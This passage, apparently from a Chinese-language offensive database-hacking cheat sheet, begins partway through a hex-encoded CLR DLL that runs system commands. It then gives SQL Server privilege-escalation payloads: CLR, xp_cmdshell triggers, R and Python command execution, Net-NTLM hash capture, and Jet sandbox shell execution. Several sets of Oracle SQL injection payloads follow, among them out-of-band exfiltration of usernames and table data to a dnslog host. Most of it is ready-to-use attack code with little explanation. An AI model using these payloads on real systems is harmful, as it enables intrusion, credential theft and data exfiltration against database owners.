E65006765745F506970650053716C5069706500436F6D70696C657247656E6572617465644174747269627574650044656275676761626C654174747269627574650053716C50726F63656475726541747472696275746500436F6D70696C6174696F6E52656C61786174696F6E734174747269627574650052756E74696D65436F6D7061746962696C697479417474726962757465007365745F5573655368656C6C4578656375746500546F537472696E67006765745F4C656E677468006D7373716C5F434C522E646C6C0053797374656D00457863657074696F6E006765745F5374617274496E666F0050726F636573735374617274496E666F0053747265616D526561646572005465787452656164657200537472696E674275696C6465720073656E646572004461746152656365697665644576656E7448616E646C6572004D6963726F736F66742E53716C5365727665722E536572766572006765745F5374616E646172644572726F72007365745F52656469726563745374616E646172644572726F72002E63746F720053797374656D2E446961676E6F73746963730053797374656D2E52756E74696D652E436F6D70696C6572536572766963657300446562756767696E674D6F6465730053746F72656450726F63656475726573004461746152656365697665644576656E744172677300617267730050726F63657373007365745F417267756D656E747300617267756D656E747300436F6E636174004F626A6563740057616974466F7245786974005374617274007365745F52656469726563745374616E646172644F7574707574007374644F75747075740053797374656D2E546578740053716C436F6E74657874007365745F4372656174654E6F57696E646F770049734E756C6C4F72456D707479000000004143006F006D006D0061006E0064002000690073002000720075006E006E0069006E0067002C00200070006C006500610073006500200077006100690074002E00000F63006D0064002E00650078006500000920002F0063002000001753007400640020006F00750074007000750074003A0000372000660069006E00690073006800650064002000770069007400680020006500780069007400200063006F006400650020003D00200000053A00200000005E54E0227F5F5E409B9302C5EA5F62E7000420010108032000010520010111110400001235042001010E0500020E0E0E11070B120C121D0E0212210212250202080E042000123D040001020E0420010102052001011141052002011C180520010112450320000204200012490320000E0320000805200112250E0500010E1D0E08B77A5C561934E08903061225040001010E062002011C122D0801000800000000001E01000100540216577261704E6F6E457863657074696F6E5468726F777301080100070100000000040100000000000000006607056200000000020000001C010000E42A0000E40C000052534453F12CF9670467FE4789AA4C0BB3C9132401000000433A5C55736572735C546573745C736F757263655C7265706F735C6D7373716C5F434C525C6D7373716C5F434C525C6F626A5C44656275675C6D7373716C5F434C522E70646200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000282C00000000000000000000422C0000002000000000000000000000000000000000000000000000342C0000000000000000000000005F436F72446C6C4D61696E006D73636F7265652E646C6C0000000000FF250020001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001001000000018000080000000000000000000000000000001000100000030000080000000000000000000000000000001000000000048000000584000004C02000000000000000000004C0234000000560053005F00560045005200530049004F004E005F0049004E0046004F0000000000BD04EFFE00000100000000000000000000000000000000003F000000000000000400000002000000000000000000000000000000440000000100560061007200460069006C00650049006E0066006F00000000002400040000005400720061006E0073006C006100740069006F006E00000000000000B004AC010000010053007400720069006E006700460069006C00650049006E0066006F0000008801000001003000300030003000300034006200300000002C0002000100460069006C0065004400650073006300720069007000740069006F006E000000000020000000300008000100460069006C006500560065007200730069006F006E000000000030002E0030002E0030002E00300000003C000E00010049006E007400650072006E0061006C004E0061006D00650000006D007300730071006C005F0043004C0052002E0064006C006C0000002800020001004C006500670061006C0043006F00700079007200690067006800740000002000000044000E0001004F0072006900670069006E0061006C00460069006C0065006E0061006D00650000006D007300730071006C005F0043004C0052002E0064006C006C000000340008000100500072006F006400750063007400560065007200730069006F006E00000030002E0030002E0030002E003000000038000800010041007300730065006D0062006C0079002000560065007200730069006F006E00000030002E0030002E0030002E0030000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002000000C000000543C00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
  WITH PERMISSION_SET = UNSAFE;
GO

-- 创建CLR函数
CREATE PROCEDURE [dbo].[ExecCommand]
@cmd NVARCHAR (MAX)
AS EXTERNAL NAME [mssql_CLR].[StoredProcedures].[ExecCommand]
go

-- 利用CLR执行系统命令
exec dbo.ExecCommand "whoami /all";


------------------------------------------------------------------------------------------------------------------------------


-- 格式简化
-- 导入CLR插件
CREATE ASSEMBLY [clrdata]
AUTHORIZATION [dbo]
FROM 0x16进制的dll
WITH PERMISSION_SET = UNSAFE;

-- 创建CLR函数
CREATE PROCEDURE [dbo].[testclrexec]
@method NVARCHAR (MAX) , @arguments NVARCHAR (MAX)
AS EXTERNAL NAME [clrdata].[StoredProcedures].[testclrexec]

-- 利用CLR执行系统命令
exec testclrexec 'cmdexec',N'whoami'
```

### 触发器提权

触发器是一种特殊类型的存储过程，它不同于存储过程。触发器主要是通过事件进行触发被自动调用执行的。而存储过程可以通过存储过程的名称被调用。

SqlServer 包括三种常规类型的触发器：DML 触发器、DDL 触发器和登录触发器

**登录触发器：**

登录触发器将为响应 LOGIN 事件而激发存储过程。与 SQL Server  实例建立用户会话时将引发此事件。登录触发器将在登录的身份验证阶段完成之后且用户会话实际建立之前激发。因此，来自触发器内部且通常将到达用户的所有消息(例如错误消息和来自 PRINT 语句的消息)会传送到 SQL Server 错误日志。如果身份验证失败，将不激发登录触发器。

```mssql
-- 设置一个触发器 ffffffff0x,当 user 表更新时触发命令 (user 表 必须存在，且 容易 卡死 因为这个calc在运行 查询就不会停止)
set ANSI_NULLS on
go
set QUOTED_IDENTIFIER on
go
create trigger [ffffffff0x]
on [user]
AFTER UPDATE as
begin
    execute master..xp_cmdshell 'cmd.exe /c calc.exe'
end
go

-- user 表 update 更新时，自动触发
UPDATE user SET id = '22' WHERE nickname = 'f0x'
```

### SQL Server R 和 Python 的利用

**描述**

在 SQL Server 2017 及更高版本中，R 与 Python 一起随附在机器学习服务中。该服务允许通过 SQL Server 中 sp_execute_external_script 执行 Python 和 R 脚本

利用条件：
 - Machine Learning Services 必须要在 Python 安装过程中选择

必须启用外部脚本
 - EXEC sp_configure 'external scripts enabled', 1
 - RECONFIGURE WITH OVERRIDE
 - 重新启动数据库服务器
 - 用户拥有执行任何外部脚本权限

```mssql
-- R脚本利用
-- 利用 R 执行命令
sp_configure 'external scripts enabled'
GO
EXEC sp_execute_external_script
@language=N'R',
@script=N'OutputDataSet <- data.frame(system("cmd.exe /c dir",intern=T))'
WITH RESULT SETS (([cmd_out] text));
GO

-- 利用 R 抓取 Net-NTLM 哈希
@script=N'.libPaths("\\\\testhost\\foo\\bar");library("0mgh4x")'


-- Python脚本利用
-- 查看版本
exec sp_execute_external_script
@language =N'Python',
@script=N'import sys
OutputDataSet = pandas.DataFrame([sys.version])'
WITH RESULT SETS ((python_version nvarchar(max)))

-- 利用 Python 执行命令
exec sp_execute_external_script
@language =N'Python',
@script=N'import subprocess
p = subprocess.Popen("cmd.exe /c whoami", stdout=subprocess.PIPE)
OutputDataSet = pandas.DataFrame([str(p.stdout.read(), "utf-8")])'

-- 利用 Python 读文件
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
WITH RESULT SETS (([cmd_out] nvarchar(max)))
```

### AD Hoc 分布式查询 & Microsoft OLE DB Provider for Microsoft Jet (沙盒提权)

AD Hoc 分布式查询允许从多个异构数据源（例如 SQL Server  的多个实例）访问数据。这些数据源可以存储在相同或不同的计算机上。启用临时访问后，登录到该实例的任何用户都可以使用 OLE DB 提供程序通过  OPENROWSET 或 OPENDATASOURCE 函数执行引用网络上任何数据源的 SQL 语句。

攻击者滥用 Ad Hoc 分布式查询和 Microsoft OLE DB Provider for Microsoft Jet 来创建和执行旨在从远程服务器下载恶意可执行文件的脚本。

利用条件
 - 拥有 DBA 权限
 - sqlserver 服务权限为 system
 - 服务器拥有 jet.oledb.4.0 驱动

```mssql
-- 修改注册表，关闭沙盒模式
EXEC master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SoftWare\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0

-- 开启 Ad Hoc Distributed Queries
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
GO
EXEC sp_configure 'ad hoc distributed queries', 1
RECONFIGURE
GO
-- Until SQL Server 2012

EXEC sp_MSset_oledb_prop N'Microsoft.ACE.OLEDB.12.0', N'AllowInProcess', 1
EXEC master.dbo.sp_MSset_oledb_prop N'Microsoft.Jet.OLEDB.4.0', N'AllowInProcess', 1

-- SQL Server 2014 or later
EXEC sp_MSset_oledb_prop N'Microsoft.ACE.OLEDB.12.0', N'DynamicParameters', 1
EXEC master.dbo.sp_MSset_oledb_prop N'Microsoft.Jet.OLEDB.4.0', N'DynamicParameters', 1

-- Windows 2003 系统 c:\windows\system32\ias\ 目录下默认自带了 2 个 Access 数据库文件 ias.mdb/dnary.mdb, 所以直接调用即可.
-- Windows 2008 R2 默认无 Access 数据库文件, 需要自己上传, 或者用 UNC 路径加载文件方能执行命令.
-- SQL Server2008 默认未注册 microsoft.jet.oledb.4.0 接口, 所以无法利用沙盒模式执行系统命令.

Select * From OpenRowSet('microsoft.jet.oledb.4.0',';Database=c:\windows\system32\ias\ias.mdb',
'select shell("whoami")');

select * from openrowset('microsoft.jet.oledb.4.0',';database=\\192.168.1.8\file\ias.mdb','select shell("c:\windows\system32\cmd.exe /c net user >c:\test.txt ")');
```

# Oracle

### Oracle权限分类

权限是用户对一项功能的执行权力。在Oracle中，根据系统的管理方式不同，将 Oracle 权限分为系统权限与实体权限两类。系统权限是指是否被授权用户可以连接到数据库上，在数据库中可以进行哪些系统操作。而实体权限是指用户对具体的模式实体 (schema) 所拥有的权限。

### 系统权限管理

系统权限：系统规定用户使用数据库的权限。（系统权限是对用户而言)。

- `DBA:`拥有全部特权，是系统最高权限，只有DBA才可以创建数据库结构
- `RESOURCE:`拥有Resource权限的用户只可以创建实体，不可以创建数据库结构
- `CONNECT:`拥有Connect权限的用户只可以登录Oracle，不可以创建实体，不可以创建数据库结构

对于普通用户：授予connect，resource权限

对于DBA用户：授予connect，resource，dba权限

```sql
-- 系统权限授予命令：
	系统权限只能由DBA用户授出，也就是sys,system(这两个用户是最开始的两个DBA用户)
	授权命令：grant connect, resource, dba to username1 , username2...;
	普通用户通过授权可以具有与system相同的用户权限，但永远不能达到与sys用户相同的权限，system用户的权限也可以被回收
	回收授权命令：revoke connect, resource, dba from system;

-- 查询用户拥有那些权限：
	select * from dba_role_privs;
	select * from dba_sys_privs;
	select * from role_sys_privs;

-- 查询自己拥有那些系统权限
	select * from session_privs;
	
-- 删除用户
	drop user [username] cascade; -- 加上cascade则将用户连同其创建的东西全部删除
	
-- 系统权限传递
	增加 WITH ADMIN OPTION 选项，则得到的权限可以传递。
	grant connect, resorce to user50 with admin option;
	
-- 系统权限回收，只能由DBA用户回收
	revoke connect, resource, dba from system;
	
-- 说明
	1. 如果使用WITH ADMIN OPTION为某个用户授予系统权限，那么对于被这个用户授予相同权限的所有用户来说，取消该用户的系统权限并不会级联取消这些用户的相同权限。
	2. 系统权限无级联，即A授予B权限，B授予C权限，如果A收回B的权限，C的权限不受影响；系统权限可以跨用户回收，即A可以直接收回C用户的权限。
```

### 实体权限管理

实体权限：某种权限用户对其它用户的表或视图的存取权限。（是针对表或视图而言的）。

- select, update, insert, alter, index, delete, all //all 包括所有权限
- execute // 执行存储过程权限

```sql
-- 授权用户表操作
	grant select, update, insert on product to user02;
	grant all on product to user02;
	上述两条命令是 除drop之外所有对 product表的操作授予 user02 用户
	
-- 授予全部用户表的操作权限
	grant all on product to public; # all不包括 drop 权限
	
-- 实体权限传递
	grant select, update on product to user02 with grant option;
	user02得到权限，并可以传递。
	
-- 实体权限的回收
	Revoke select, update on product from user02;
	传递的权限将全部消失

-- 说明
	1. 如果取消某个用户的对象权限，那么对于这个用户使用WITH GRANT OPTION授予权限的用户来说，同样还会取消这些用户的相同权限，也就是说取消授权时级联的。
```

### 角色管理

```sql
-- 建立一个角色
	create role role1;
	
-- 为角色授权
	grant create any table,create procedure to role1;
	
-- 授权角色给用户
	grant role1 to user1;
	
-- 查看角色所包含的权限
	select * from role_sys_privs;
	
-- 创建带有口令的角色（在生效带有口令的角色时必须提供口令）
	create role role1 identified by password1;
	
-- 修改角色，设置是否需要口令
	alter role role1 not identified;
	alter role role1 identified by password1;

-- 设置当前用户要生效的角色
	角色的生效是一个什么概念呢？假设用户a有b1,b2,b3三个角色，那么如果b1未生效，则b1所包含的权限对于a来讲是不拥有的，只有角色生效了，角色内的权限才作用于用户，最大可生效角色数由参数MAX_ENABLED_ROLES设定；在用户登录后，oracle将所有直接赋给用户的权限和用户默认角色中的权限赋给用户。
	set role role1; # 使role1生效
	set role role,role2; # 使role1,role2生效
	set role role1 identified by password1; # 使用带有口令的role1生效
	set role all; # 使用该用户的所有角色生效
	set role none; # 设置所有角色失效
	set role all except role1; # 除role1外的该用户的所有其它角色生效。
	select * from SESSION_ROLES; # 查看当前用户的生效的角色。
	
-- 修改指定用户，设置其默认角色
	alter user user1 default role role1;
	alter user user1 default role all except role1;
	
-- 删除角色
	drop role role1；
	角色删除后，原来拥用该角色的用户就不再拥有该角色了，相应的权限也就没有了。
	
-- 说明
	1. 无法使用WITH GRANT OPTION为角色授予对象权限
	2. 可以使用WITH ADMIN OPTION 为角色授予系统权限,取消时不是级联
```

### PL/SQL语言

PL/SQL 也是一种程序语言，叫做过程化 SQL 语言（Procedual Language/SQL）。

PL/SQL 是 Oracle 数据库对 SQL 语句的扩展。在普通 SQL 语句的使用上增加了编程语言的特点，所以 PL/SQL 就是把数据操作和查询语句组织在 PL/SQL 代码的过程性单元中，通过逻辑判断、循环等操作实现复杂的功能或者计算的程序语言。在 PL/SQL 编程语言是由甲骨文公司在 20 世纪 80 年代，作为 SQL 程序扩展语言和 Oracle 关系数据库开发。

基本结构如下：

```
DECLARE
    
BEGIN
    
EXCEPTION
    
END;
```

### SQL 注入需注意的规则

- Oracle 使用查询语言获取需要跟上表名，这一点和 Access 类似，没有表的情况下可以使用 dual 表，dual 是 Oracle 的虚拟表，用来构成 select 的语法规则，Oracle 保证 dual 里面永远只有一条记录。

- Oracle 的数据库类型是强匹配，所以在 Oracle 进行类似 Union 查询数据时必须让对应位置上的数据类型和表中的列的数据类型是一致的，也可以使用 NULL 代替某些无法快速猜测出的数据类型位置，这一点和 SQL Server 类似。

- Oracle 和 mysql 不一样，分页中没有 limit，而是使用三层查询嵌套的方式实现分页 例如: `SELECT * FROM ( SELECT A.*, ROWNUM RN FROM (select * from session_roles) A WHERE ROWNUM <= 1 ) WHERE RN >=0`

- Oracle 的单行注释符号是 `--`，多行注释符号 `/**/`。
- Oracle 数据库包含了几个系统表，这几个系统表里存储了系统数据库的表名和列名，如 user_tab_columns，all_tab_columns，all_tables，user_tables 系统表就存储了用户的所有的表、列名，其中 table_name 表示的是系统里的表名，column_name 里的是系统里存在的列名。

- Oracle 使用 `||` 拼接字符串（在 URL 中使用编码 `%7c` 表示），`concat()` 函数也可以实现两个字符串的拼接

### 联合查询注入

**Payload空格有问题，可以放在vscode中查看**

```sql
# 判断注入点
所有数据库方式都一样

# 判断列数
依旧提交 order by 去猜测显示当前页面所用的 SQL 查询了多少个字段，也就是确认查询字段数。
?id=1 order by 3 --+
?id=1 order by 4 --+

# 判断回显点
?id=-1 union select null,null,null from dual --+
?id=-1 union select 1,'2','3' from dual --+

# 获取数据库基本信息
?id=-1 union select 1,(select banner from sys.v_$version where rownum=1 ),'3' from dual --+
?id=-1 union select 1,(select instance_name from v_$instance),'3' from dual --+

# 获取数据库名，即用户名
Oracle 没有数据库名的概念，所谓数据库名，即数据表的拥有者，也就是用户名。
1. 获取第一个用户名
?id=-1 union select 1,(select username from all_users where rownum=1),'3' from dual --+
2. 获取第二个用户名
?id=-1 union select 1,(select username from all_users where rownum=1 and username not in ('SYS')),'3' from dual --+
       
3. 获取当前用户名
?id=-1 union select 1,(SELECT user FROM dual),'3' from dual --+

# 获取表名
1. 获取Test用户第一张表
?id=-1 union select 1,(select table_name from all_tables where rownum=1 and owner='TEST'),'3' from dual --+
2. 获取Test用户第二张表
?id=-1 union select 1,(select table_name from all_tables where rownum=1 and owner='TEST' and table_name<>'NEWS'),'3' from dual --+

# 获取字段名
?id=-1 union select 1,(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),'3' from dual --+
?id=-1 union select 1,(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1 and column_name<>'ID'),'3' from dual --+

# 获取数据
?id=-1 union select 1,(select concat(concat(username,'~~'),password) from users where rownum=1),null from dual --+
```

### 报错注入

在 oracle 注入时候出现了数据库报错信息，可以优先选择报错注入，使用报错的方式将查询数据的结果带出到错误页面中。

使用报错注入需要使用类似 1=[报错语句]，1>[报错语句]，使用比较运算符，这样的方式进行报错注入（MYSQL 仅使用函数报错即可），类似 mssql 报错注入的方式。

#### utl_inaddr.get_host_name ()

`utl_inaddr.get_host_address` 本意是获取 ip 地址，但是如果传递参数无法得到解析就会返回一个 oracle 错误并显示传递的参数。

我们传递的是一个 sql 语句所以返回的就是语句执行的结果。**oracle 在启动之后，把一些系统变量都放置到一些特定的视图当中，可以利用这些视图获得想要的东西。**

```sql
# 获取用户名
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select user from dual)%7c%7c'~') --+

# 获取表名
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') --+

# 获取字段名
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') --+

# 获取数据
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') --+
```

#### ctxsys.drithsx.sn () 

```sql
# 获取用户名
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select user from dual)%7c%7c'~') --+

# 获取表名
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') --+

# 获取字段名
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') --+

# 获取数据
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') --+

```

#### dbms_xdb_version.checkin ()

```sql
# 获取用户名
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

#### dbms_xdb_version.makeversioned ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

#### dbms_xdb_version.uncheckout ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

dbms_utility.sqlid_to_sqlhash ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

#### ordsys.ord_dicom.getmappingxpath ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

#### XMLType ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select user from dual)%7c%7cchr(62))) from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7cchr(62))) from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7cchr(62))) from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select username from test.users where rownum=1)%7c%7cchr(62))) from dual) is not null --+
```

### 布尔型盲注

#### decode()

**decode(字段或字段的运算，值1，值2，值3）**

这个函数运行的结果是，当字段或字段的运算的值等于`值 1` 时，该函数返回`值 2`，否则返回` 值3`，当然值 1，值 2，值 3 也可以是表达式，这个函数使得某些 sql 语句简单了许多

```sql
# 判断是否是TEST用户
?id=1 and 1=(select decode(user,'TEST',1,0) from dual) --+

# 猜解当前用户
?id=1 and 1=(select decode(substr((select user from dual),1,1),'a',1,0) from dual) --+

# 猜解表名
?id=1 and 1=(select decode(substr((select table_name from all_tables where rownum=1 and owner='TEST'),1,1),'N',1,0) from dual) --+

# 猜解字段名
?id=1 and 1=(select decode(substr((select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),1,1),'I',1,0) from dual) --+

# 猜解数据
?id=1 and 1=(select decode(substr((select username from test.users where rownum=1),1,1),'a',1,0) from dual) --+
```

#### instr ()

**instr 函数的使用，从一个字符串中查找指定子串的位置**

```sql
select instr('123456789','12') position from dual;
```


可以使用该函数按位爆破，该函数返回是从1开始

```sql
?id=1 and (instr((select user from dual),'S'))=1 --+
?id=1 and (instr((select user from dual),'SY'))=1 --+
?id=1 and (instr((select user from dual),'SYS'))=1 --+
```

#### substr()

这个就和mysql 基本一致

```sql
# 猜解数据长度
?id=1 and (select length(user) from dual)=3 --+

# ASCII按位爆破
?id=1 and (select ascii(substr(user,1,1))from dual)=65 --+
```

### 时间盲注

#### dbms_pipe.receive_message ()

`DBMS_LOCK.SLEEP() `函数可以让一个过程休眠很多秒，但使用该函数存在许多限制。

首先，不能直接将该函数注入子查询中，因为 Oracle 不支持堆叠查询 (stacked query)。其次，只有数据库管理员才能使用 DBMS_LOCK 包。

在 Oracle PL/SQL 中有一种更好的办法，可以使用下面的指令以内联方式注入延迟：

`dbms_pipe.receive_message('RDS', 10)`

`DBMS_PIPE.RECEIVE_MESSAGE()` 函数将为从 RDS 管道返回的数据等待 10 秒。默认情况下，允许以 public 权限执行该包。`DBMS_LOCK.SLEEP() `与之相反，它是一个可以用在 SQL 语句中的函数。

```sql
# 查看是否可以使用 dbms_pipe.receive_message () 函数进行延时注入
?id=1 and 1=(dbms_pipe.receive_message('RDS',5)) --+

# 猜解当前用户
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(user as varchar(4000)),chr(32)) from dual),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+

# 猜解表名
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(table_name as varchar(4000)),chr(32)) from all_tables where rownum=1 and owner='TEST'),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+

# 猜解字段
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(column_name as varchar(4000)),chr(32)) from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+

# 猜解数据
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(username as varchar(4000)),chr(32)) from test.users where rownum=1),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+
```

#### decode ()

原理：结合耗费时间的查询语句,不过在使用的过程中有很多不尽如人意的地方，有时候加载快有时加载慢。

```sql
?id=1 and 1=(select decode(substr(user,1,1),'S',(select count(*) from all_objects),0) from dual) --+
```

#### decode () 与 dbms_pipe.receive_message () 嵌套时间盲注

```sql
?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS', 5),0) from dual) --+
```

### DNS外带注入

Oracle 注入之带外通信和 DNSLOG 注入非常相似，例如和 mysql 中 load_file () 函数实现无回显注入非常相似。

Oracle 发送 HTTP 和 DNS 请求，并将查询结果带到请求中，然后检测外网服务器的 HTTP 和 DNS 日志，从日志中获取查询结果，通过这种方式将繁琐的盲注转换成可以直接获取查询结果的方式。

使用第三方平台，监听访问请求，并记录请求的日志信息，然后使用 utl_http.request() 向外网主机发送 http 请求，请求便携带了查询的结果信息。此处可以结合 SSRF 进行内网探测。或许这就是 Oracle 的 SSRF。

利用 utl.inaddr.get_host_address()，将查询结果拼接到域名下，并使用 DNS 记录解析日志，通过这种方式获取查询结果。

```sql
# 检测是否支持 utl_http.request
?id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --+

# 获取用户名
?id=1 and utl_http.request('http://'%7c%7c(select user from dual)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

# 获取表名
?id=1 and utl_http.request('http://'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

# 获取列名
?id=1 and utl_http.request('http://'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

# 获取数据
?id=1 and utl_http.request('http://'%7c%7c(select username from test.users where rownum=1)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+
```

